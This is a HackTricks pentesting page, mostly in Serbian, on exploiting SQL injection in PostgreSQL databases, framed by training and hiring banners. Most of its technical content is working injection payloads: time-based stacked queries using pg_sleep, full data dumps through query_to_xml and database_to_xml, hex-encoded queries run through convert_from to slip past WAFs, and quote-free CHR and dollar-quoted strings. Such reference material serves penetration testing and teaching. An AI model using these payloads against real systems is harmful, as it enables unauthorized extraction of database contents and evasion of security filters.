 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_tečno poznavanje poljskog jezika u pisanju i govoru je obavezno_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Ova stranica ima za cilj da objasni različite trikove koji bi vam mogli pomoći da iskoristite SQL injection pronađen u postgresql bazi podataka i da dopuni trikove koje možete pronaći na** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL modul `dblink`** nudi mogućnosti za povezivanje sa drugim PostgreSQL instancama i izvršavanje TCP konekcija. Ove funkcije, u kombinaciji sa `COPY FROM` funkcionalnošću, omogućavaju radnje poput eskalacije privilegija, skeniranja portova i hvatanja NTLM izazova. Za detaljne metode o izvršavanju ovih napada proverite kako da [izvršite ove napade](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Primer eksfiltracije koristeći dblink i velike objekte**

Možete [**pročitati ovaj primer**](dblink-lo\_import-data-exfiltration.md) da vidite CTF primer **kako učitati podatke unutar velikih objekata i zatim eksfiltrirati sadržaj velikih objekata unutar korisničkog imena** funkcije `dblink_connect`.

## PostgreSQL napadi: Čitanje/pisanje, RCE, privesc

Proverite kako da kompromitujete host i eskalirate privilegije iz PostgreSQL u:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL funkcije za stringove

Manipulacija stringovima može vam pomoći da **zaobiđete WAF-ove ili druge restrikcije**.\
[**Na ovoj stranici** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**možete pronaći neke korisne funkcije za stringove.**

### Stacked Queries

Zapamtite da PostgreSQL podržava složene upite, ali nekoliko aplikacija će baciti grešku ako se vrate 2 odgovora kada se očekuje samo 1. Ali, i dalje možete zloupotrebiti složene upite putem vremenske injekcije:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML trikovi

**query\_to\_xml**

Ova funkcija će vratiti sve podatke u XML formatu u samo jednoj datoteci. Idealna je ako želite da izbacite mnogo podataka u samo 1 redu:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Ova funkcija će izbaciti celu bazu podataka u XML formatu u samo 1 redu (budite oprezni ako je baza podataka veoma velika jer možete izazvati DoS ili čak vašeg vlastitog klijenta):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Ako možete da izvršavate **upite** prosleđujući ih **unutar stringa** (na primer koristeći funkciju **`query_to_xml`**). **Možete koristiti convert\_from da prosledite string kao hex i na taj način zaobiđete filtre:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Zabranjene navodnike

Ako ne možete koristiti navodnike za vaš payload, možete to zaobići sa `CHR` za osnovne klauzule (_konkatenacija karaktera funkcioniše samo za osnovne upite kao što su SELECT, INSERT, DELETE, itd. Ne funkcioniše za sve SQL izjave_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ili sa `$`. Ove upite vraćaju iste rezultate:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **karijeru u hakovanju** i da hakujete nehakovano - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite trikove za hakovanje slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
